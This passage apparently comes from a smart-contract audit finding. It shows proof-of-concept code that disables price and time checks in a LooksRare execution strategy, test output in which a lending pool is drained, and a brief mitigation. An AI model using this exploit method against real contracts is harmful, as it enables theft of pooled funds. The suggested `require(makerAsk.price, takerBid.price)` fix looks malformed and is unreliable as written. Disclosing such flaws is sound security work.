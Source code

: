       await (await tx).wait();
    }

Finally, we need to change the passed execution strategy. In `StrategyStandardSaleForFixedPrice.sol`, change `canExecuteTakerBid`:

    function canExecuteTakerBid(OrderTypes.TakerOrder calldata takerBid, OrderTypes.MakerOrder calldata makerAsk)
        external
        view
        override
        returns (
            bool,
            uint256,
            uint256
        )
    {
        return (
            //((makerAsk.price == takerBid.price) &&
            //    (makerAsk.tokenId == takerBid.tokenId) &&
            //    (makerAsk.startTime <= block.timestamp) &&
            //    (makerAsk.endTime >= block.timestamp)),
            true,
            makerAsk.tokenId,
            makerAsk.amount
        );
    }

We can see the output:

```
maker balance before BigNumber { value: "0" }
taker balance before BigNumber { value: "10000000000000000000" }
pool balance before BigNumber { value: "990000000000000000000" }
maker balance after BigNumber { value: "1000000000000000000000" }
taker balance after BigNumber { value: "0" }
pool balance after BigNumber { value: "0" }

  Leveraged Buy - Positive tests
    ✔ looksrare attack (34857ms)


  1 passing (54s)

```

### Recommended Mitigation Steps

It is important to validate that the price charged to user is the same price taken from the Pool contract:

    // In LooksRareAdapter's getAskOrderInfo:
    require(makerAsk.price, takerBid.price)



***

---
